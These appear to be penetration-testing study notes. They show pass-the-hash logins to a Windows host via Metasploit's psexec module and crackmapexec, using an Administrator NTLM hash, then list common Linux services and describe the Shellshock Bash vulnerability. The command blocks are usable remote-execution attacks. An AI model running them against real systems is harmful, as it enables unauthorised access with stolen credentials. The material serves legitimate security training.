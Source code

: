 **First method : PsExec**

```
msf6> use exploit/windows/smb/psexec
msf6> set rhosts 10.3.21.247
msf6> sessions
msf6> set lport 4422
msf6> set SMBUser Administrator
msf6> set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d  # LM:NTLM
msf6> run
```

**Second method : Crackmapexec**

This is the NTLM hash.

```bash
john@attack> crackmapexec smb 10.3.21.247 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d" -x "ipconfig"
```

### Frequently exploited Linux services

* Linux is a free an open source operating system that is comprised of the Linux kernel, which was developed by Linux Torvalds, and the GNU toolkit, which is a collection of software and utilities that was started and developed by Richard Stallman.
* This combination of open source software is what makes up the Linux OS as a while, and it is commonly referred to as GNU/Linux.
* Linux has various use cases, however, it is typically deployed as a server operating system. For this reason, there are specific services and protocols that will typically be found running on a Linux server.
* These services provide an attacker with an access vector that they can utilize to gain access to a target host.
* Having a good understanding of what these services are, how they work and their potential vulnerabilities is a vitally important skill to have as a penetration tester.

| Protocol/Service             | Ports            | Purpose                                                                                                                                                                       |
| ---------------------------- | ---------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Apache Web Server            | TCP ports 80/443 | Free and open source cross-platform web server released under the Apache License 2.0. Apache accounts for 80% of web servers globally.                                        |
| SSH (Secure Shell)           | TCP port 22      | SSH is cryptographic remote access protocol that is used to remotely access and control systems over an unsecured network. SSH was developed as a secure successor to telnet. |
| FTP (File Transfer Protocol) | TCP port 21      | FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients and vice versa.                   |
| SAMBA                        | TCP port 445     | Samba is the Linux implementation of SMB, and allows Windows systems to access Linxu shares and devices.                                                                      |

### CVE-2014-6271 (Shellshock)

#### Description

* Shellshock is the name given to a faimly of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.
* The Shellshock vulnerability was discovered by Stéphane Chazelas on the 12th of September 2014 and was made public on the 24th of September 2014.
* Bash is a \*Nix shell that is part of the GNU project and is the default shell for most Linux distributions.
* The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters `() {:;}`.
* This vulnerability only affects Linux as Windows does not use utilize Bash as it is not a \*Nix based operating system.
* In the context of remote exploitation, Apache web servers configured to run CGI scripts or `.sh` scripts are also vulnerable to this attack.
* CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.
